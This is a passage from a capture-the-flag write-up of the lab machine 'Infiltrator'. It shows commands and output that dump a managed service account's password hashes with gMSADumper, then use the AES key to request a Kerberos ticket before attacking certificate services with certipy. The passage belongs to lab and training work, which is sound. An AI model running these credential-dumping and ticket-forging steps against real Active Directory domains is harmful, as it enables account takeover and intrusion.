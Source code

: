<figure><img src=".gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

They do indeed have permission to read the group managed service account password. This is great news, so we effectively have control over infiltrator\_svc$ now. However, if you check their outbound permissions, you get nothing. They also don't seem to have a lot of control over any particular service (mssql, mysql, smb, winrm/http, etc).

There is a significant logical leap here, but remember that we saw some CA shenanigans playing out in our initial scans. Having hit a wall, we should check that out.

First, lets grab that password we need:

using gMSADumper (reccomended by bloodhound): [https://github.com/micahvandeusen/gMSADumper/blob/main/gMSADumper.py](https://github.com/micahvandeusen/gMSADumper/blob/main/gMSADumper.py)

```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ python3 ./gMSADumper.py -u lan_managment -p 'l@n_M@an!1331' -d infiltrator.htb
Users or groups who can read password for infiltrator_svc$:
 > lan_managment
infiltrator_svc$:::663675deae5af90402f1d53c8117cdaa
infiltrator_svc$:aes256-cts-hmac-sha1-96:6ecc3726b898126831d1335949dbc6a350dd7da5dafb0148c9ba97b78aba5274
infiltrator_svc$:aes128-cts-hmac-sha1-96:a04dd1abcb07fa5977f6306937b3c60f
```

Great, now lets take the hash and throw it into certipy: [https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)

We can use certipy to find dangerous certificate permissions. When I first tried to use it with the aes hash, it was failing with a kerberos error. So I used the following command to fetch a ticket first:

```
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ impacket-getTGT infiltrator.htb/infiltrator_svc\$ -aesKey 6ecc3726b898126831d1335949dbc6a350dd7da5dafb0148c9ba97b78aba5274 -dc-ip 10.129.171.160
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in infiltrator_svc$.ccache
┌──(kali㉿kali)-[~/infiltrator-writeup]
└─$ export KRB5CCNAME=infiltrator_svc$.ccache
```
